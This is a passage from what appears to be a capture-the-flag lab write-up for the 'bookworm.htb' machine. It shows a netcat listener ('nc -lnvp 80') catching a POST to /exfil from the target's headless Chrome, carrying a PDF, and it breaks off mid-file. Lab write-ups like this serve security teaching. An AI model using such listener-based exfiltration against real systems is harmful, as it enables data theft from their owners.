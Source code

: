 

This one returns a PDF:


    oxdf@hacky$ nc -lnvp 80
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.215 33964
    POST /exfil HTTP/1.1
    Host: 10.10.14.6
    Connection: keep-alive
    Content-Length: 1006
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
    Accept: */*
    Origin: http://bookworm.htb
    Referer: http://bookworm.htb/
    Accept-Encoding: gzip, deflate

    %PDF-1.3
    3 0 obj
    <</Type /Page
    /Parent 1 0 R
    /Resources 2 0 R
    /Contents 4 0 R>>
    endobj
    4 0 obj
    <</Filter /FlateDecode /Length 115>>
    stream
    x=̱
    @E~uj8-zZ       D6_^8505O
                             @*b8ۚj!*,aێ73ڴx~2nSN^{N;gE#q=ӉQ}Q
    endstream
    endobj
    1 0 obj
    <</Type /Pages
    /Kids [3 0 R ]
    /Count 1
    /MediaBox [0 0 595.28 841.89]
    >>
    endobj
    5 0 obj
    <</Type /Font
    /BaseFont /Helvetica
    /Subtype /Type1
    /Encoding /WinAnsiEncoding
    >>
    endobj
    2 0 obj
    <<
    /ProcSet [/PDF /Text /ImageB /ImageC /ImageI]
    /Font <<
    /F1 5 0 R
    >>
    /XObject <<
    >>
    >>
    endobj
    6 0 obj
    <<
    /Producer (PyFPDF 1.7.2 http://pyfpdf.googlecode.com/)
    /CreationDate (D:20230129212444)
    >>
    endobj
    7 0 obj
    <<